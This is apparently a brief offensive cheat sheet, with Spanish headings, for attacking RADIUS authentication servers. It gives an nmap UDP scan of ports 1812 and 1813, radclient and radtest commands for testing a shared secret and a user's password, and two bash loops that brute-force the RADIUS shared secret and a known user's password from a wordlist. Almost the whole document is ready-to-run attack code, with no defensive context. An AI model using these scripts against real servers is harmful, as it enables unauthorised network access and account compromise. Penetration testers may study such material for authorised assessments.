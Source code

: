 ## Recon
```bash
nmap -sU IP -p 1812,1813
```

## Testear valores
### Test secrets
```bash
echo "Message-Authenticator = 0x00" | radclient IP:1812 auth SecretToTest
```

### Test pass
```bash
radtest user pass IP 10 Secret
```
## Bruteforce
### Secret Bruteforce
```bash
#! /bin/bash
while read password; do
    radtest knowuser knowpass IP 10 $password > /dev/null
    if [ "$?" = "0" ]; then
        echo "Correct RADIUS secret: $password "
        break
    else
        continue
    fi
done < $1
```
### Password Bruteforce
```bash
#! /bin/bash
while read password; do
    radtest knowuser $password IP 10 knownsecret > /dev/null
    if [ "$?" = "0" ]; then
		    echo "Correct users password: $password "
		    break
	  else
		    continue
	  fi
done < $1
```
